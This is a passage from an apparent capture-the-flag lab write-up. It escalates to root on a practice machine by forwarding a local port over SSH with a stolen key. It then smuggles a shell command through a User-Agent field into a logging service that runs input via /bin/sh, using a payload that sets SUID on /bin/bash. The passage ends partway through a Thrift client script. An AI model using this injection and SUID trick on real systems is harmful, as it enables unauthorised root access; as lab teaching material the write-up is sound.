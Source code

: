 ```bash
```

We also see in the `Gitbucket`instance that there is in the `root/Logservice`some files that say:

```
-   flag.IntVar(&port, "p", 9090, "Specify port")
- logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
-         exec.Command{"/bin/sh", "-c", logs}
```

so we can local forward port 9090 and then create a malicious payload to get a reverse shell as root 

```bash
ssh -L 9090:127.0.0.1:9090 -i id_rsa margo@10.129.145.31
```

then, we can create 2 scripts under `/tmp`, `malicious.log`and `payload.sh`:

```bash
127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"
```

```bash
chmod +s /bin/bash
```

Once that is done, we can copy the `log_service.thrift`on our machine and run the `thrift`command to generate the files for the client:

```go
namespace go log_service    
service LogService {  
	string ReadLogFile(1: string filePath)  
}  
```

and then using `thrift`: 

```go
thrift --gen py log_services.thrift
```

==> Then we can create the `client.py` file inside of the `gen-py`folder:

```python
from thrift import Thrift  
from thrift.transport import TSocket  
from thrift.transport import TTransport  
from thrift.protocol import TBinaryProtocol  
from log_service import LogService # Import generated Thrift client code  
  
def main():  
	# Set up a transport to the server  
	transport = TSocket.TSocket('localhost', 9090)  
	  
	# Buffering for performance  
	transport = TTransport.TBufferedTransport(transport)  
	  
	# Using a binary protocol  
	protocol = TBinaryProtocol.TBinaryProtocol(transport)  
	  
	# Create a client to use the service  
	client = LogService.Client(protocol)  
	  
	# Open the connection  
	transport.open()  
	  
	try:  
		# Specify the log file path to process  
```